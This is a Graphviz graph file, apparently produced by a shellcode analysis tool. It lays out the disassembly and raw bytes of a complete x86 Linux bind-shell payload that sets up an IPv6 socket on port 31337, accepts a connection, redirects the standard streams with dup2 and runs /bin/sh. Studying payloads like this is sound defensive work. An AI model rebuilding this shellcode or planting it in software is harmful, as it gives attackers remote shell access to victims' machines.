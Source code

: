 digraph G {
	//rankdir=LR
	node [fontname=Courier, labeljust=r];
	 "0x92ebc58" [shape=box, label = "0x00417000 31DB                            xor ebx,ebx\l0x00417002 53                              push ebx\l0x00417003 43                              inc ebx\l0x00417004 53                              push ebx\l0x00417005 6A0A                            push byte 0xa\l0x00417007 89E1                            mov ecx,esp\l0x00417009 6A66                            push byte 0x66\l0x0041700b 58                              pop eax\l"]
	 "0x92ee528" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041700c socket\l"]
	 "0x92ee600" [shape=box, label = "0x0041700e 96                              xchg eax,esi\l0x0041700f 99                              cwd \l0x00417010 52                              push edx\l0x00417011 52                              push edx\l0x00417012 52                              push edx\l0x00417013 52                              push edx\l0x00417014 52                              push edx\l0x00417015 52                              push edx\l0x00417016 66687A69                        push word 0x697a\l0x0041701a 66680A00                        push word 0xa\l0x0041701e 89E1                            mov ecx,esp\l0x00417020 6A1C                            push byte 0x1c\l0x00417022 51                              push ecx\l0x00417023 56                              push esi\l0x00417024 89E1                            mov ecx,esp\l0x00417026 43                              inc ebx\l0x00417027 6A66                            push byte 0x66\l0x00417029 58                              pop eax\l"]
	 "0x92ef800" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041702a bind\l"]
	 "0x92ef8d8" [shape=box, label = "0x0041702c B066                            mov al,0x66\l0x0041702e B304                            mov bl,0x4\l"]
	 "0x92efad8" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417030 listen\l"]
	 "0x92efbb0" [shape=box, label = "0x00417032 52                              push edx\l0x00417033 52                              push edx\l0x00417034 56                              push esi\l0x00417035 89E1                            mov ecx,esp\l0x00417037 43                              inc ebx\l0x00417038 B066                            mov al,0x66\l"]
	 "0x92f01b0" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041703a accept\l"]
	 "0x92f0288" [shape=box, label = "0x0041703c 93                              xchg eax,ebx\l0x0041703d 59                              pop ecx\l"]
	 "0x92f0488" [shape=box, label = "0x0041703e 6A3F                            push byte 0x3f\l"]
	 "0x92f0588" [shape=box, label = "0x00417040 58                              pop eax\l"]
	 "0x92f0688" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417041 dup2\l"]
	 "0x92f0760" [shape=box, label = "0x00417043 49                              dec ecx\l"]
	 "0x92f0860" [shape=box, label = "0x00417044 79F8                            jns 0xfffffffa\l"]
	 "0x92f0960" [shape=box, label = "0x00417046 682F2F7368                      push dword 0x68732f2f\l0x0041704b 682F62696E                      push dword 0x6e69622f\l0x00417050 89E3                            mov ebx,esp\l0x00417052 50                              push eax\l0x00417053 53                              push ebx\l0x00417054 89E1                            mov ecx,esp\l0x00417056 B00B                            mov al,0xb\l"]
	 "0x92f1070" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417058 execve\l"]
	 "0x92ebc58" -> "0x92ee528" [style = bold ]
	 "0x92ee528" -> "0x92ee600" [style = bold ]
	 "0x92ee600" -> "0x92ef800" [style = bold ]
	 "0x92ef800" -> "0x92ef8d8" [style = bold ]
	 "0x92ef8d8" -> "0x92efad8" [style = bold ]
	 "0x92efad8" -> "0x92efbb0" [style = bold ]
	 "0x92efbb0" -> "0x92f01b0" [style = bold ]
	 "0x92f01b0" -> "0x92f0288" [style = bold ]
	 "0x92f0288" -> "0x92f0488" [style = bold ]
	 "0x92f0488" -> "0x92f0588" [style = bold, color=orange ]
	 "0x92f0588" -> "0x92f0688" [style = bold, color=orange ]
	 "0x92f0688" -> "0x92f0760" [style = bold, color=orange ]
	 "0x92f0760" -> "0x92f0860" [style = bold, color=orange ]
	 "0x92f0860" -> "0x92f0488" [style = bold, color=orange ]
	 "0x92f0860" -> "0x92f0960" [style = bold ]
	 "0x92f0960" -> "0x92f1070" [style = bold ]
}